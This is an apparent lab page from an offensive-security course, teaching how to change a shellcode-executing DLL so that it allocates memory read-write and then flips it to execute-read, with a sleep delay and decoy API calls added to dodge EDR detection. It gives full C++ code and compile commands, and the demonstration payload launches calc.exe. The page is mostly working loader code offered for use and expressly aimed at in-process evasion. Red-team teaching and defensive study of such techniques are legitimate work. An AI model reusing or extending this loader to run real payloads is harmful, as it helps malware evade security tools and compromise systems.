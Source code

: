 ```yaml
---
showTableOfContents: true
title: "Decoupling, Delays, and Misdirections (Lab 9.1)"
type: "page"
---
```


## Goal

Let's take `calc_dll.cpp`, as we created in Lab 1.1, decouple RWX memory permissions and introduce some delay + decoys. Note the loader + server will be the exact same as we used in Lab 8.2, these files remained unchanged.


## Code: Implementing RW -> RX
All the changes will happen inside of our `ExecuteShellcode()` function.

```cpp
BOOL ExecuteShellcode() {
	DWORD oldProtect = 0; // Variable to store original permissions

    void* exec_memory = VirtualAlloc(NULL, sizeof(calc_shellcode),
                                     MEM_COMMIT | MEM_RESERVE,
                                     PAGE_READWRITE); // CHANGE THIS LINE

    if (exec_memory == NULL) {
        return FALSE;
    }

	// Changed RtlCopyMemory to memcpy
    memcpy(exec_memory, calc_shellcode, sizeof(calc_shellcode));

    // Change memory protection to RX before execution
    if (!VirtualProtect(exec_memory, sizeof(calc_shellcode), PAGE_EXECUTE_READ, &oldProtect)) {
        // Handle VirtualProtect error (e.g., print GetLastError())
        VirtualFree(exec_memory, 0, MEM_RELEASE); // Clean up allocated memory
        return FALSE;
    }

    void (*shellcode_func)() = (void(*)())exec_memory;

    shellcode_func();
    
    // (Optional but Recommended) Restore original permissions before freeing
    DWORD dummyProtect; // We don't care about the 'old' protection on this call
    VirtualProtect(exec_memory, sizeof(calc_shellcode), oldProtect, &dummyProtect);

    VirtualFree(exec_memory, 0, MEM_RELEASE);
    return TRUE;
}
```

## Code Breakdown
- Right at the top we declare `oldProtect` to store our original permissions at the end.
- When we use VirtualAlloc, we now request memory that is `PAGE_READWRITE`
- Next, I changed the function we used to copy the shellcode into memory from `RtlCopyMemory` to `memcpy`, this is not required and has no effect, I just did it to show you that there are multiple options available to us.
- We then add a call to `VirtualProtect` *after* copying the shellcode but *before* executing it. This changes the page permissions to `PAGE_EXECUTE_READ`, allowing the CPU to execute the instructions stored there. We store the previous permissions (`PAGE_READWRITE`) in the `oldProtect` variable.
- Then, before we call `VirtualFree()` (as we did before), we restore our original memory permissions (`PAGE_READWRITE`). As explained in Theory 9.1, this is not required, but good practice.


## Code: Implementing Delays + Decoys
Once again all the changes happen inside of `ExecuteShellcode()` function, specifically between the points where we use `memcpy` to copy the shellcode into memory, and then change the permissions.

```cpp
BOOL ExecuteShellcode() {
	DWORD oldProtect = 0; // Variable to store original permissions

    void* exec_memory = VirtualAlloc(NULL, sizeof(calc_shellcode),
                                     MEM_COMMIT | MEM_RESERVE,
                                     PAGE_READWRITE); // CHANGE THIS LINE

    if (exec_memory == NULL) {
        return FALSE;
    }

	// Changed RtlCopyMemory to memcpy
    memcpy(exec_memory, calc_shellcode, sizeof(calc_shellcode));

	// --- Start Delay/Misdirection ---  
	  
	 // Misdirection: Call some common, low-impact APIs DWORD tickCount = GetTickCount();  
	 SYSTEMTIME sysTime;  
	 GetSystemTime(&sysTime);  
	  
	 // Delay: Pause execution for a short period  
	 Sleep(2000); // Sleep for 2 seconds (Adjust as needed)  
	  
	 // --- End Delay/Misdirection ---
 
    // Change memory protection to RX before execution
    if (!VirtualProtect(exec_memory, sizeof(calc_shellcode), PAGE_EXECUTE_READ, &oldProtect)) {
        // Handle VirtualProtect error (e.g., print GetLastError())
        VirtualFree(exec_memory, 0, MEM_RELEASE); // Clean up allocated memory
        return FALSE;
    }

    void (*shellcode_func)() = (void(*)())exec_memory;

    shellcode_func();
    
    // (Optional but Recommended) Restore original permissions before freeing
    DWORD dummyProtect; // We don't care about the 'old' protection on this call
    VirtualProtect(exec_memory, sizeof(calc_shellcode), oldProtect, &dummyProtect);

    VirtualFree(exec_memory, 0, MEM_RELEASE);
    return TRUE;
}
```


## Code Breakdown
- We're just adding one extremely simply decoy function, and a 2-second delay.
- Note this single, simple decoy is unlikely to have much impact, but I just wanted to illustrate the principle - this is one of those areas you are free to get extremely creative with, so feel free to research other potential functions, combinations etc.



## Instructions
We'll need to recompile our DLL.

On Darwin (Mac OS):

```
x86_64-w64-mingw32-g++ calc_dll.cpp -o calc_dll.dll -shared -static-libgcc -static-libstdc++ -luser32
```

On Windows:

```
cl.exe /D_USRDLL /D_WINDLL calc_dll.cpp /link /DLL /OUT:calc_dll.dll
```

On Linux:

```
g++ -shared -o calc_dll.dll calc_dll.cpp -Wl,--out-implib,libcalc_dll.a
```


Then, follow the exact same instructions from Lab 8.2 - we'll once again run our server, and then the client/loader. The only difference now of course is that the server will serve this new dll with our delay + decoy functions.

## Results
The output should be unchanged from Lab 8.2, and following a 2-second delay we should once again have calc.exe pop-up. Our decoy function has no visible effect, remember this is all an attempt to foil detection behind the scenes by introduction some functional misdirection.

## Discussion
In theory these changes might have made some improvement to our chances of being detected. Now of course, the only way to detect that would have been in an environment with an EDR. That however is a lot of effort for something that is more than likely to fail, as I mentioned before I think there is educational value in exploring this process, even if there practical is dubious. You are however of course free to improve on the code here, introduce more dummy functions etc and test it in a live environment if you wish, just be aware that we have much better tricks up our sleeve which we'll explore in our upcoming modules.

## Conclusion
We've successfully refactored our shellcode execution. This serves as a solid foundation for the subsequent lessons in this module where we will explore further refinements and techniques for in-process evasion.

---
